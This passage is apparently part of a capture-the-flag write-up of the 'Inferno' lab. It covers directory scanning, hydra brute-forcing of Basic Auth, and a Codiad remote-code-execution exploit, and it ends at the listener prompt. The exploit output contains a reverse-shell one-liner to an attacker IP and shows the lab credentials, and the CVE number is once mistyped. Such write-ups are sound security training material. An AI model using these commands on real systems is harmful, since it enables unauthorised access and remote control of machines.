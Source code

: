 With Google / searchsploit giving no relevant vulnerabilities for the discovered SSH and Apache versions, we turn to a gobuster scan of the application on 80 using dirbuster's medium wordlist, revealing the `/inferno` route : 

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...snip...
/inferno              (Status: 401) [Size: 460]
```

Attempting to navigate to the newly discovered route shows that it is protected by [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication) :


```console
┌──(kali㉿kali)-[~]
└─$ curl $IP/inferno/ -I
HTTP/1.1 401 Unauthorized
Date: Thu, 21 Oct 2021 05:08:01 GMT
Server: Apache/2.4.29 (Ubuntu)
WWW-Authenticate: Basic realm="Restricted Content"
Content-Type: text/html; charset=iso-8859-1
```

## 2. Basic auth brute force - hydra

Given that we haven't discovered any possible credentials, we'll make a short list of possible users (`echo 'admin\nroot\ndante' > users.txt`) and attempt to brute force the basic auth using hydra's http-get mode and rockyou. This takes a little while (which is why we wanted to keep the list of possible usernames as short as possible), but eventually returns valid credentials for the `/inferno` route : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/inferno]
└─hydra -L users.txt -P rockyou -f $IP http-get /inferno
...snip...
[STATUS] 3023.67 tries/min, 9071 tries in 00:03h, 43024126 to do in 237:10h, 16 active
[80][http-get] host: 10.10.108.143   login: USERNAME   password: PASSWORD
```

These credentials provide access to a login page for [Codiad, an in-browser cloud IDE that is no longer actively supported](http://codiad.com/) and also provide access to the Codiad application.

## 3. Foothold - CVE-2018-14009

Google and searchsploit give a number of CVEs and exploit scripts for Codiad. After reading through the searchsploit results, we opt for [Wang Yihang's exploit for CVE-2081-14009](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit), providing RCE through a body parameter that is injected directly into a call to [shell_exec](https://www.php.net/manual/en/function.shell-exec.php). The exploit script is well documented and requires that we set up two nc listeners, one to serve the injected command and one to catch the resulting shell session (note that we've added the basic auth creds to the target URL) : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/inferno]
└─$ python3 ./exp.py http://admin:dante1@$IP/inferno/ admin dante1 10.6.76.88 80 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/ATTACK-IP/81 0>&1 2>&1"' | nc -lnvp 80
nc -lnvp 81
[+] Please confirm that you have done the two command above [y/n]
```
